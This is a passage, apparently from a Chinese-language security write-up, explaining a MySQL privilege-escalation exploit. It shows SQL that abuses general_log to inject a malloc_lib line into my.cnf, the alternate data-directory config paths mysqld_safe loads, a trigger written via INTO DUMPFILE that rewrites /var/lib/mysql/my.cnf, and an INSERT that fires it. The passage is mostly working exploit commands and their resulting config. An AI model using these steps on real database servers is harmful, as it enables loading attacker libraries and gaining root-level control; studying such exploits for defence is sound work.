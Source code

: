 ```
    '&gt; malloc_lib=/tmp/mysql_exploit_lib.so
    '&gt; 
    '&gt; [separator]
    '&gt; 
    '&gt; ';
mysql&gt; set global general_log = off;
```



**注意：修改配置文件后，会导致mysql重启的时候失败。**



注入后的my.cnf文件包含：



```
[mysqld]
malloc_lib=/tmp/mysql_exploit_lib.so
```



mysqld_safe也载入配置文件从mysql的data目录，(/var/lib/mysql/my.cnf)，这个功能从mysql 5.7移除，不再加载，所以即使mysql用户没有权限修改/etc/my.cnf，也可以通过下面的文件来加载



```
/var/lib/mysql/my.cnf 
/var/lib/mysql/.my.cnf
```



即使没有dba权限，也可以通过触发器来覆写文件



```
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `active_table` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
" INTO void;   
   set global general_log = off;
END;
SELECT '....trigger_code...' INTO DUMPFILE /var/lib/mysql/activedb/active_table.TRG'
```



触发器写入成功后，刷新的时候会载入，比如通过执行一个insert语句来刷新

```
INSERT INTO `active_table` VALUES('xyz');
```

